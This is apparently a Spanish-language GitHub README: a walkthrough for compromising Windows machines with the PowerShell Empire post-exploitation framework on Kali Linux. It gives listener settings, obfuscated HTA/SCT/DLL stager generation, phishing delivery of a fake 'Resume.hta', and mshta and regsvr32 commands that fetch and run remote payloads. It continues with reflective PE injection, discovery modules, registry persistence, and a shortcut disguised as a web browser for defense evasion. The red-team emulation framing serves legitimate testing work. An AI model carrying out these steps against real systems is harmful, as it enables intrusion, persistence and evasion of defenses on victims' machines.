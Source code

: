 # Powershell Empire: Post-Explotación en redes Windows con Kali linux

-Powershell Empire, es un framework de post-explotación basado en el despliegue de agentes que se ejecutan en las máquinas comprometidas y son gestionados desde una consola bajo el control del pentester.
-Consiste en la integración de los frameworks conocidos de pentesting con powershell.
-Se centra únicamente en Python con comunicaciones criptográficamente seguras con el complemento de una arquitectura flexible.

# Componentes de PowerShell Empire

1.Listeners: Es un proceso que escucha una conexión desde la máquina que estamos atacando. Esto ayuda a Empire a enviar el “paquete” a la computadora del atacante.
2.Agentes: Es un programa que mantiene una conexión entre tu computadora y el host comprometido.
3.Stagers: Es un fragmento de código que permite que nuestro código malicioso se ejecute a través del agente en el host comprometido.
4.Módulos: Esto es lo que ejecuta nuestros comandos maliciosos, que pueden recopilar credenciales y escalar nuestros privilegios como se mencionó anteriormente.

## Prerequisitos
1. Considerar los S.O compatibles que han sido testeados para el uso de Empire:
-Kali Linux Rolling (En nuestro caso estaremos utilizando este S.O)
-Ubuntu 20.04
-Debian 10

> Verificar con:
> uname -r

2. Actualizar todas las dependencias y paquetes del S.O
> sudo apt update 

3. Tener instalado Python como mínimo la versión 3.8 (Se recomiendo la v3.8 o v3.9)
> Verificar con:
> python --version

4. Para los S.O Kali instalar la versión utilizando sudo (las nuevas versiones de Kali requieren correr “sudo” antes de empezar Empire.


## Instalación Empire
1. Instalar la ultima versión de Empire corriendo lo siguiente:
> sudo apt install powershell-empire

El resultado debe ser el siguiente:
![image](https://i.imgur.com/DAawQol.jpg)

## Inicializar Empire
1. Inicializar servidor empire
> sudo powershell-empire server

![image](https://i.imgur.com/SuNG6Of.jpg)

2. Inicializar cliente empire
> sudo powershell-empire client

![image](https://i.imgur.com/X2cQsBp.jpg)

## Instalación Starkiller
1. Instalar Starkiller para tener GUI
> cd /opt
> sudo wget https://github.com/BC-SECURITY/Starkiller/releases/download/v1.0.0/starkiller-1.0.0.AppImage
> sudo chmod +x starkiller-1.0.0.AppImage

![image](https://i.imgur.com/rFlVBTU.jpg)

## Inicializar Starkiller (GUI)
1. Iniciar Starkiller
> cd /opt/starkiller
> ./starkiller-1.0.0.AppImage

![image](https://i.imgur.com/UfK06Mk.jpg)

## Creación de componentes PowerShell Empire
1.Crear Listener
> Type: http
> Name: http
> Host: http://10.0.0.187
> Port: 80
> BindIP: 10.0.0.187
> Jitter: 0.5
> StagingKey: empireadmin

![image](https://i.imgur.com/uqNHCBy.jpg)

2.Crear Stagers

-Generar Stager HTA:

>Type: windows/hta
Listner: http
Base64: True
Language: powershell
Outfile: /tmp/Resume.hta

-Generar Stager SCT:

> Type: windows/launcher_sct
Listner: http
Base64: True
Language: powershell

-Generar Stager DLL:

> Type: windows/dll
Listner: http
Arch: x86
Language: powershell
OutFile: /tmp/launcher.dll
Obfuscate: True
ObfuscateCommand: Token\String\1

Resultado de la creación de Stagers:

![image](https://i.imgur.com/htm5bqB.jpg)

3.Descargar Stagers en /tmp y usarlos con SimpleHTTPServer
> cd /tmp
> python -m SimpleHTTPServer 8080

![image](https://i.imgur.com/JurGJ9P.jpg)

##Emulación de TTP's
1. Acceso Inicial
Enviamos un link de descarga o mail http://192.168.126.129/Resume.hta

2. Ejecución
-Ejecutar Resume.hta
> mshta http://10.0.0.187:8080/Resume.hta

![image](https://i.imgur.com/lZCeoZq.jpg)

-Migrar a otro proceso con reflective PE Injection
> ver procesos: ps
> usemodule code_execution/invoke_reflectivepeinjection
> set ProcID: <processID>
> set DllPath: /tmp/launcher.dll

![image](https://i.imgur.com/Ap8ghR1.jpg)
  
3. Agente Activo
![image](https://i.imgur.com/9Q5JA25.jpg)
  
4. Descubrimiento
> whoami
> usemodule situational_awareness/host/antivirusproduct 
> usemodule situational_awareness/host/get_uaclevel 
> usemodule situational_awareness/host/winenum

![image](https://i.imgur.com/8DjskSO.jpg)
5. Persistencia
> usemodule persistence/userland/registry
> set Listener: http

![image](https://i.imgur.com/loz2sRu.jpg)

6. Evasión de defensa
-Ejecución con regsvr32 y scripting. Se crea un acceso directo enmascarango un navegador web con target:
> C:\Windows\System32\cmd.exe /c "C:\Windows\System32\regsvr32.exe /s /n /u /i:http:\192.168.126.129:8080\launcher.sct scrobj.dll"

![image](https://i.imgur.com/maJN0cy.jpg)

#### De lo presentado anteriormente se puede apreciar que el malware (.exe/dll/hta) permite construir cualquier ataque ya que se tiene acceso a win32.
